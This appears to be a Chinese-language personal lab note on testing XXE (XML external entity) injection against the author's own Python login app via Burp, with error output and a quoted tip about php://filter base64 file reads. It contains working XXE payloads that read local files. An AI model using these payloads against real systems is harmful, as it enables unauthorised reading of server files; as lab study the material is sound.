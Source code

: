 没有过滤，burp 又知道没有对 xml 做任何限制

那先试探性地整点

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
	<!ENTITY name "my name is xxe">
]>
<user><username>&name;</username><password>1</password></user>
```

在 burp 中改成上面那个样，然后提交

![[Pasted image 20240221152313.png]]

好，我们更进一步

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
	<!ENTITY url SYSTEM "file://D:\test.txt">
	<!ENTITY name "my name is xxe">
]>
<user><username>&url;</username><password>1</password></user>
```

报错：

```
127.0.0.1 - - [21/Feb/2024 16:24:16] "POST /doLogin HTTP/1.1" 500 -
Traceback (most recent call last):
  File "C:\Users\sirius\Downloads\python_xxe\xxe.py", line 27, in doLogin
    username = username[0].childNodes[0].nodeValue
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
IndexError: list index out of range
```

也就是说 username 现在是空数组

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
	<!ENTITY url SYSTEM "file://D:\test.txt">
	<!ENTITY name "my name is xxe">
	<!ENTITY usern "&url;">
]>
<user><username>&usern;</username><password>1</password></user>
```

再次尝试依旧错误，虽然 usern 指向 name 时有效

去看别人的解题思路：
> 若是以 file 和 http 协议读取 .php 文件则会报错，因为 php 文件中含有 <>// 等特殊字符，xml 解析时会当成 xml 语法进行解析。那我们若是要读取 php 文件则可以使用 php://filter/read=convert.base64-encode/resource=/etc/hosts 方法对内容进行 base64 编码

我搭建用的 python，所以只能考虑别的方式去处理文件协议